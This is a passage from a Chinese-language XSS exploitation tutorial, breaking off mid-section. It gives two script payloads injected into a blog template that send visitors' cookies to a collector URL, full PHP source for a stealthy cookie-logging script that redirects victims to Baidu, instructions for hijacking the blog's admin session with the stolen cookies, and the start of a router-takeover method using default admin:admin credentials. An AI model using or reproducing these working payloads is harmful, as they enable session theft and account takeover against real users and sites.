 **漏洞利用
一、窃取 Cookie **
对于跨站的攻击方法，使用最多的莫过于 cookie 窃取了，获取 cookie 后直接借助“明小子”工具或其它可修改 cookie 的浏览器（如装有 Cookies Edit 插件的 Firefox）将 cookie 修改为获取的 cookie，这样即可获得博客的管理权限。
首先，我们在自定义模板的 head 代码模块中写入
**<script>document.write('<img src="http://localhost/test.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');</script>**
或者
**<script>document.location = 'http://localhost/test.php?cookie=' + document.cookie;</script>**
这里我把脚本放在本机上，你可以根据脚本地址来更改上面的 localhost 地址。以上两个均可达到同等效果，但就隐蔽性而言，前者的隐蔽性会更强些，读者可自行选择，当然也有其它语句可达到一样的目的，就看你如何发挥了。接下来我们来编写上面的 test.php 文件，它主要用于获取对方的 cookie，其源代码如下：
代码:

```cpp
<?php

$cookie = $_GET['cookie'];            //以 GET 方式获取 cookie 变量值
$ip = getenv ('REMOTE_ADDR');        //远程主机 IP 地址
$time=date('Y-m-d g:i:s');            //以“年-月-日 时：分：秒”的格式显示时间
$referer=getenv ('HTTP_REFERER');    //链接来源
$agent = $_SERVER['HTTP_USER_AGENT'];    //用户浏览器类型

$fp = fopen('cookie.txt', 'a');        //打开 cookie.txt，若不存在则创建它
fwrite($fp," IP: " .$ip. "\n Date and Time: " .$time. "\n User Agent:".$agent."\n Referer: ".$referer."\n Cookie: ".$cookie."\n\n\n");    //写入文件
fclose($fp);    //关闭文件

header("Location: http://www.baidu.com");    //将网页重定向到百度，增强隐蔽性

?>

```

接下来我们访问博客首页，我这里以 http://quan-ge.blogbus.com 为测试地址，访问后我们打开 http://localhost/cookie.txt 看看 cookie.txt 文件是否被创建并写入数据，结果如图 3 所示：
 ![](img/b48818ca31a7d51b3a397097fafaa8ef.jpg)
                                          图 3
很明显，我们已经成功窃取到 cookie 了，剩下的事相信大家都知道，这里就不再赘述。

**二．渗透路由器**
对于处于内网中的用户，我们可以利用 XSS 来更改路由器密码。我们可以借助默认的密码来登陆路由器，比如 URL：http://admin:admin@192.168.1.1，其实很多路由器都是使用默认密码，我这里这台也是如此，直接以 admin 作为用户名和密码。首先我们先利用 Firefox 插件 Live HTTP headers 获取请求头，如图 4 所示：